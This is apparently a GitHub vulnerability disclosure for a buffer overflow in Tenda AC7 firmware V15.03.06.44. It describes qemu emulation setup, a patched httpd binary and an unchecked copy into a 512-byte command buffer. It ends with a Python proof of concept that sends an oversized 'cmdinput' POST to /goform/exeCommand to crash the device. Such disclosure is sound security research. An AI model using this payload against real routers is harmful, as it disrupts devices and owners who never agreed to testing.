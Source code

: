 Overview
--------

Experimental environment：ub20

Firmware download website：[AC7 V1.0 升级软件](https://www.tenda.com.cn/material/show/102776)
![image](https://github.com/user-attachments/assets/6c8f66b9-f107-4610-973f-d5f4365cfbd8)

### Environmental simulation

need build Network bridge:

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.0.1/24
brctl addif br0 ens33//搭建网桥
```

Directly using the httpd in the original firmware will cause the simulation to fail due to the environment check. Here is the patched httpd file (a7\_\_V15.03.06.44\_httpd\_ok file in this project) (modify the assembly to force skip the environment check step): [https://github.com/Raining-101/IOT\_cve/blob/main/a7\_\_V15.03.06.44\_httpd\_ok](https://github.com/Raining-101/IOT_cve/blob/main/a7__V15.03.06.44_httpd_ok)

qemu command：

```text-plain
sudo qemu-mipsel-static -L . ./bin/httpd
```

Attacked version
----------------

V15.03.06.44

Vulnerability Details
----------------
A buffer overflow vulnerability exists in TenDa AC7 V15.03.06.44 firmware feature. This function copies the contents of the string to cmd_buf without performing a boundary check. Therefore, if the length is longer than 512 bytes, it can cause a buffer overflow, overwriting the memory area behind the array, which can cause the program to crash and trigger this security vulnerability.

![image](https://github.com/user-attachments/assets/ba19c8a1-732d-4dac-8258-6344af10f9b2)

### poc
```text-plain
import requests
ip = "192.168.142.100"
url = "http://" + ip + "/goform/exeCommand"
payload = b"Raining"*3000

data = {"cmdinput": payload}
response = requests.post(url, data=data)
print(response.text)
```
![image](https://github.com/user-attachments/assets/ac65ebbf-1756-40d5-82bb-5eb263070f8e)



